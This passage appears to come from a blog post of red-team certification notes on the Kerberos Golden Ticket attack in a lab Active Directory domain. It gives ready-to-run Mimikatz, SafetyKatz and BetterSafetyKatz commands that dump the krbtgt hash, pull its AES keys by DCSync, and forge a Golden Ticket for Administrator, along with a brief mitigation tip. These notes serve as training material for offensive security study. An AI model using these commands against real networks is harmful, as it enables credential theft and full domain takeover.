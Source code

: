 

- Skips the 1 e 2 steps
- its a signed and encrypted by the hash of krbtgt account which validates the TGT ticket
- the krbtgt account can be used to impersonate any user with any privileges from even a non-domain machine

> its recommended to change the password of the krbtgt account twice as password history is maintained for the account


### How to do that

**Execute mimikatz (or a variant) on DC as DA to get krbtgt hash**:
```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc
```

**To use the DCSync feature for getting AES keys for krbtgt account**. 

> Use the below command with DA privileges (or a user that has replication rights on the domain object):

```powershell
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```

> Using the DCSync option needs no code execution on the target DC

**Run the below command to create a Golden ticket on any machine that has network connectivity with DC**:
```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

![Alt text](/assets/images/posts/crtp/8.png){: .align-center}
